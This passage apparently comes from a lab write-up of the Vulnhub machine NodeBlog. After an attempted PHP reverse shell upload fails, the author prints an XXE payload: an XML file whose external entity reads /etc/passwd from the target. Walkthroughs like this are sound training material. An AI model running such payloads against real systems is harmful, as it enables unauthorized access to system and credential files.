 I tried uploading the php_reverse_shell.php file but I got this error so I suppse I need to try XXE here as a payload →

![Untitled](/Vulnhub-Files/img/NodeBlog/Untitled%203.png)

Now I uploaded this file.xml file in outcome to that I got this →

```bash
<?xml version="1.0"?><!DOCTYPE markdown [<!ENTITY test SYSTEM 'file://etc/passwd'>]>
<post>
	<title>/etc/passwd</title>
		<description>This XML payload load es /etc/passwd file.</description>
	<markdown>&test;</markdown>
</post>
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/NodeBlog/Untitled%204.png)

